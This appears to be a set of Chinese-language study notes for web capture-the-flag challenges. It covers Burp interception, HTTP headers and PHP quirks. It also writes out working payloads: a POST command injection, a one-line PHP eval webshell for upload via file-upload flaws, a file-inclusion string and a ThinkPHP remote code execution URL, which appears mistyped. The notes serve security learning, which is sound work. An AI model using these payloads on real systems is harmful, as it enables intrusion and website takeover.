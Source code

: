 ## 一些解题思路

- 在url后面加入`index.php?`进行传参.【php弱类型比较？？`'abc'==0`??

- 使用*f12*查看元素

- 使用*hackbar*对服务器传递参数（发送*post*请求）

- 在*firefox*上设置代理，在*burp*上对数据包进行截取修改。（一般是网站有传参的时候才会使用*burp*对数据包进行拦截和修改）

- ***php shell***

  直接在`post`中传递shell命令获取flag：`shell=system('cat flag.txt')`;也可以通过`find`命令在`/`目录下查找`flag.txt`文件，然后使用`cat`命令获取`flag.txt`的文件内容。

- ***web shell***

  利用文件上传漏洞，往目标网站中上传一句话木马，然后就可以在本地通过中国菜刀chopper.exe即可获取和控制整个网站目录。

  `<?php @eval($_POST['attack']) ?>`

  @表示后面即使执行错误也不报错。`eval()`函数表示括号内的语句字符串什么的全都当做代码执行。

- 浏览器服务器接收到url的参数时会先自动对参数值进行**解码**。比如`%`会先编码为`%25`.

- **文件包含**

  `?page=http://127.0.0.1/index.php/?hello=<?show_source("fl2gisisish3r3.php");?>`

  利用**文件包含**将`page`后面的参数全部当做php来执行，此时该文件应该在本地服务器且为`index.php`。又因为存在`echo $_GET["hello"];`以`get`方法接收`hello`，又因为**文件包含**将`hello`后面的值当做代码执行，调用系统命令。

- 



***XFF(X-Forwarded-For)***代表客户端，也就是HTTP的请求端真实的ip，只有在通过了HTTP代理或者负载均衡服务器时才会添加该项。

***HTTP Referer***是header的一部分，当浏览器向web服务器发送请求的时候，一般会带上Referer，告诉服务器我是从哪个页面链接过来的。



## ThinkPHP漏洞

ThinkPHP远程代码执行：

`/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&var[1]]=(系统命令)`















 













































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































































